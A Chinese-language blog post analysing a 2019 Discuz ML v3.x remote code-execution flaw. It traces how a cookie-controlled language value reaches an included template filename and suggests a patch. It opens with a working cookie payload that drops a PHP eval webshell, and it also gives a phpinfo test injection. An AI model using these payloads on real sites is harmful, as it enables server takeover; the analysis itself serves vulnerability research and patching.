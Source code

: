 ```yaml
---
title: "Discuz Ml v3.x 代码执行分析"
date: 2019-07-11T20:48:12+08:00
lastmod: 2019-07-11T20:48:12+08:00
draft: false
tags: ['exec','code']
categories: ['代码审计']
comment: true
---
```

昨天晚上Discuz Ml爆出了漏洞，今天来分析一波。

<!--more-->

## exp

修改Cookie中的xxxx_language字段为以下内容即可

```php
%27.+file_put_contents%28%27shell.php%27%2Curldecode%28%27%253c%253fphp+%2520eval%28%2524_%2547%2545%2554%255b%2522a1%2522%255d%29%253b%253f%253e%27%29%29.%27
```

访问网站首页则会在根目录下生成木马文件,shell.php 密码为a1

![20190711205534.png](https://ae01.alicdn.com/kf/UTB8_Dhrw9bIXKJkSaef761asXXaa.png)

## 定位漏洞位置

解码exp

```
'.+file_put_contents('shell.php',urldecode('<?php+ eval($_GET["a1"]);?>')).'
```

修改exp为`_language=1.1.1;`使其报错。

- ![20190711210101.png](https://ae01.alicdn.com/kf/UTB8Hrllw__IXKJkSalU761BzVXat.png)

定位到653行

![20190711211456.png](https://ae01.alicdn.com/kf/UTB8TMXHw1vJXKJkSajh7637aFXaX.png)

关键代码644行
```php
$cachefile = './data/template/'.DISCUZ_LANG.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```
`cachefile`变量是缓存文件，将其写入到`/data/template/`目录下，并且由`DISCUZ_LANG`拼接，追踪下`DISCUZ_LANG`的值
2088-2096行

```php
global $_G;
if($_G['config']['output']['language'] == 'zh_cn') {
return 'SC_UTF8';
} elseif ($_G['config']['output']['language'] == 'zh_tw') {
return 'TC_UTF8';
} else {
//vot !!!! ToDo: Check this for other languages !!!!!!!!!!!!!!!!!!!!!
/*vot*/			return strtoupper(DISCUZ_LANG) . '_UTF8';
}
```
可以看到`$_G['config']['output']['language']`作为`DISCUZ_LANG`的值

全局搜索`['language']`

source/class/discuz/discuz_application.php 305行，发现是从cookie中拿到language的值

![20190711212635.png](https://ae01.alicdn.com/kf/UTB86WNtw9bIXKJkSaef761asXXaB.png)

那么到这里整个漏洞的流程就很明显了，cookie中`language`参数可控导致`DISCUZ_LANG`可控，从而导致`cachefile`的文件名可被注入代码，最终`include_once`包含一下导致了造成代码执行。

phpinfo验证

`Ov1T_2132_language='.phpinfo().';`

![20190711214222.png](https://ae01.alicdn.com/kf/UTB8HphiwYnJXKJkSahG760hzFXaN.png)

## 修复建议

截止到本文发布之前，补丁还没有出来。

建议修改source/function/function_core.php 644行为

```php
/*vot*/	$cachefile = './data/template/'.'sc'.'_'.(defined('STYLEID') ? STYLEID.'_' : '_').$templateid.'_'.str_replace('/', '_', $file).'.tpl.php';
```
 删除可控变量

## 写在文后

其实从漏洞点的注释上来看就知道这是一个未完成的部分，毕竟还是`TODO`，开发人员得背锅。不过我怎么没有这种好运气呢，呜呜呜😭

